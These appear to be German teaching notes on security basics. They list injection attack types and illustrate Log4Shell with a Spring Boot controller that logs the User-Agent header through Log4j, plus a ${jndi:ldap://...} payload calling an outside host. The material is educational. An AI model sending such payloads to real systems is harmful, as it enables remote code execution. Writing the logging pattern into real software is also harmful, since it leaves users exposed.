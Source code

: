 ## 3 Grundpfeiler von Security

- Integrität "Das System tut das, für was es entworfen wurde"
- Vertraulichkeit "Das System gibt Daten nur an berechtigte Parteien weiter"
- Verfügbarkeit "Das System muss die Aufgaben erledigen können"


## Injections

- SQL Injections
- Cross Site Scripting
- (Buffer Overflows)
- OS Command Injection
- Path Traversal

## Log4Shell

Bug in der Library Log4j

```java
package net.codejava;
 
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.bind.annotation.RequestHeader;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
 
@RestController
public class SpringBootRESTController {

    private static final Logger logger = LogManager.getLogger("SpringBootHelloWorld");

    @RequestMapping("/")
    String home(@RequestHeader(value = "User-Agent") String userAgent) {
        logger.info("Got request from user agent: {}", userAgent);
        return "Hello World Spring Boot!";
    }

}
```

```
${java:vm}
```

```
${jndi:ldap://log4shell.huntress.com:1389/7c5dba6d-c6de-4aa1-9c1e-0f0979f86e23}
```

## Was sind Injection-Attacken?
Attacken, bei denen nutzerkontrollierter Input nicht (ausreichend) bereinigt wird und in einem Kontext verwendet wird, in dem man davon ausgeht, dass der Input sicher ist.
